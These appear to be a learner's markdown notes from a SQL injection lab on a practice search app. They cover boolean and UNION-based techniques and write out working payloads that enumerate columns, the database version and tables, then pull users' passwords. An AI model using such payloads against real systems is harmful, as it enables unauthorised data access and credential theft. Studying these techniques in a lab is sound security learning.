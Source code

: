 ## SQL Injection - Introduction
- Arguable the most famous vulnerability of all time
- Modern web apps make it tricky to find and exploit
- Often a critical finding

## SQL Injection - UNION
-  1st Lab
-  Basic app that searches a database
-  Entering `Jeremy` returns `Username: jeremy - Email: jeremy@example.com`
-  Try single and double quotes to break SQL statements
-  Try logical operators
-  Entering `jeremy' or 1=1#` returns
  ```
  Username: jeremy - Email: jeremy@example.com
  
  Username: jessamy - Email: jessamy@example.com
  
  Username: bob - Email: bob@example.com
  ```

  - SQLi POC

- `#` is a terminator, ending the query, ignoring anything after, `-- -` also works.
- `1=1` is true statement, returns all

### UNION Select
- Can only select the same number of columns as in the original query
- Start with `'  union select null#` and then add nulls until you get a result
- `'  union select null,null,null# returned `Username: - Email: `
- This tells us there are 3 columns
- `'  union select null,null,version()#` returns `Username: - Email: 8.0.40` giving us the version of the database
- `'  union select null,null,table_name from information_schema.tables#` returns all of the tables
- Can also do columns, replacing table and tables
- Then do password from the app name and it returns the users' passwords
